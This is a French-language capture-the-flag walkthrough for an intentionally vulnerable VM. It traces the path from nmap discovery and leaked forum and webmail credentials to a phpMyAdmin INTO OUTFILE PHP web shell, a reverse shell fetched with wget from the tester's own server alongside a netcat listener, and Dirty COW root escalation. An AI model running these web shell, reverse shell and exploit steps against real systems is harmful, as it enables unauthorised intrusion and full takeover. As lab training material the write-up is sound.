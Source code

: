 # nmap
Une fois l’iso lancé, on cherche son IP sur le réseau : `nmap -sP 192.1.1.0/24`  
On scan ensuite les dossiers utilisés par la plupart des appli et serveurs web : `nmap -sV --script=http-enum <IP>`  
On trouve les chemins suivants :
```
 /forum/: Forum
 /phpmyadmin/: phpMyAdmin
 /webmail/src/login.php: squirrelmail version 1.4.22
 /webmail/images/sm_logo.png: SquirrelMail
```

# forum
On se rend sur le forum, dans lequel on trouve un topic « Probleme login ? » posté par lmezard. Il contient des logs de connexions. On remarque que le log précédant la connexion réussie de lmezard contient un nom d’utilisateur ressemblant à un mot de passe : `!q\]Ej?*5K5cy*AJ`

On peut utiliser ces identifiants pour se connecter au forum. On accède au profil perso de lmezard dans lequel apparait son adresse mail : `laurie@borntosec.net`

# webmail
On se rend sur le webmail, et on utilise le mail de lmezard avec son MDP du forum.  
Dans la boite, un mail dont l’objet est « DB Access » contient les identifiants de root pour la BDD : `root/Fg-'kKXBj87E:aJ$`

# phpMyAdmin
On se rend sur phpMyAdmin, et on utilise les identifiants trouvés dans le mail. En cliquant sur l’onglet SQL, on peut effectuer une injection SQL sur le serveur. Pour cela, on a besoin de pouvoir lancer la requête suivante: `SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/path/to/writable/directory/backdoor.php"`

Il nous faut donc trouver un dossier sur le serveur avec droits d’écriture. Sinon la requête va échouer.

## dirb
On utilise la commande dirb pour scanner les dossiers du serveur : `dirb https://<IP>`  
On trouve toute une liste de dossiers, listables ou non. On teste les listables, et l’on arrive à écrire dans `/forum/templates_c/`

## Injection SQL
Le serveur Apache utilise le chemin classique `/var/www` pour stocker ses sites. On lance donc la requête : `SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/forum/templates_c/backdoor.php"`

Le fichier backdoor.php va donc exécuter sur le serveur toute commande passée en argument dans l’URL, par exemple : `https://<IP>/forum/templates_c/backdoor.php?cmd=ls`
On obtient bien la liste des fichiers présents dans le dossier.

## Reverse shell
Pour faciliter la navigation dans le système de fichiers, on peut uploader un reverse shell sur le serveur pour s’y connecter à distance.  
On récupère un [reverse-shell sur le web](https://github.com/pentestmonkey/php-reverse-shell) qu’on configure pour fonctionner avec nos VM.  

Pour uploader ce shell sur le serveur, on le place sur un serveur perso et on utilise notre backdoor. Sur le serveur perso, on place php-reverse-shell à la racine du site. Sur un navigateur, on lance : `https://<IP>/forum/templates_c/backdoor.php?cmd=wget http://<IPserveur>/php-reverse-shell -O php-reverse-shell.php`
Le shell est désormais sur le serveur.

On ouvre une connexion TCP sur l’hôte : `nc -v -n -l -p 1234`  
Puis on lance le shell sur le serveur : `https://<IP>/forum/templates_c/php-reverse-shell.php`

La connexion s’effectue sur l’hôte, on a accès à un terminal avec l’utilisateur `www-data`.  
À partir de là, nous essayons de mettre en œuvre une élévation de privilège pour passer `root`.

# DirtyCOW

## Version KERNEL
On vérifie la version du Kernel : `uname -a`  
On se rend compte que la version de Kernel (3.2.0-91) est vulnérable à la faille [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW).  
Après quelques recherches sur le net, on trouve un exploit pour Dirty COW sur [Exploit DB](https://www.exploit-db.com/exploits/40839).

## Exploit
On copie le fichier `exploit_dirty.c` dans la VM : `scp exploit_dirty.c laurie@<IP>:/home/laurie`  
On compile : `gcc -pthread exploit_dirty.c -o dirty -lcrypt`  
On exécute : `./dirty <NEW-PASSWORD>`

L’exécutable va modifier le fichier `/etc/passwd`. Selon la [documentation Linux](http://www.linux-france.org/article/sys/lame/html/x829.html), le fichier est constitué de la façon suivante :
```
smithj:x:561:561:Joe Smith:/home/smithj:/bin/bash
```
Un `x` dans le champ mot de passe indique que les mots de passe sont stockés dans le fichier `/etc/shadow`.

Lorsque l’on exécute `dirty`, celui-ci va remplacer le `x` par le hash du mot de passe que nous venons de saisir. Ainsi lors de la comparaison des hash au moment de la connexion, le kernel va comparer le hash présent dans le fichier `/etc/passwd` et non plus dans le fichier `/etc/shadow`.

On exécute `su` avec le mot de passe choisi.  
On vérifie l’uid : `id`  
On se rend compte que nous sommes uid=0. BINGO !!!

On se déplace dans le dossier `/root` et avec un `cat README`, on se rend compte que nous sommes root sur la machine !

## Explication de la faille
La faille [Dirty COW](https://dirtycow.ninja/) touche le noyau Linux à partir de la version 2.6.22 (septembre 2007) jusqu’à la version 4.4.25 (octobre 2016) incluse. Elle a été corrigée depuis [la version 4.4.26](https://cdn.kernel.org/pub/linux/kernel/v4.x/ChangeLog-4.4.26).  
Elle exploite les fonctionnalités [Copy-On-Write (COW)](https://en.wikipedia.org/wiki/Copy-on-write) du noyau, d’où son nom. C’est par ce biais que le pirate peut atteindre et écrire sur des espaces mémoire qui, normalement, ne sont qu’en lecture seule.  
De cette façon, il est possible de procéder à une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.
Pour plus de détails, cette [vidéo Youtube](https://www.youtube.com/watch?v=kEsshExn7aE) explique bien les choses.

